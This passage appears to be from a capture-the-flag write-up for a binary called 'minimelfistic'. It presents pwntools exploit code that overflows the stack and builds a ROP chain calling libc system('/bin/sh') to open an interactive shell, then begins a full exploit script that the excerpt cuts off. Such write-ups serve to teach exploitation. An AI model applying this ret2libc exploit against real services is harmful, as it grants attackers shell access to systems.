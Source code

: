 You can append this part at the end of the script.

```py
SHELL_PAYLOAD = [
	CRASH,
	POP_RDI_RET,
	p64(next(libc.search(b"/bin/sh"))),
	p64(libc.sym["system"])
]

io.sendlineafter(b"> ", b"".join(SHELL_PAYLOAD))
io.interactive()
```

## Final Script
If you did the same thing as i did then your final script should look exactly or somewhat similar to the following script.
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./minimelfistic
from pwn import *
  
# Set up pwntools for the correct architecture
exe = context.binary = ELF('./minimelfistic')
# context.log_level = "debug"
context.terminal = ["konsole", "-e"]
# Many built-in settings can be controlled on the command-line and show up
# in "args". For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
  

def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = 'break main'
  
#===========================================================
# EXPLOIT GOES HERE
#===========================================================
# Arch: amd64-64-little
# RELRO: Full RELRO
# Stack: No canary found
# NX: NX enabled
# PIE: No PIE (0x3ff000)
  
io = start()
#io = remote("localhost", 1337)
e = ELF("./minimelfistic")
libc = ELF("./libc.so.6")
  
CRASH = b"9" + b"A"*71
  
# ROP (pop rdi; ret)
rop = ROP(e)
```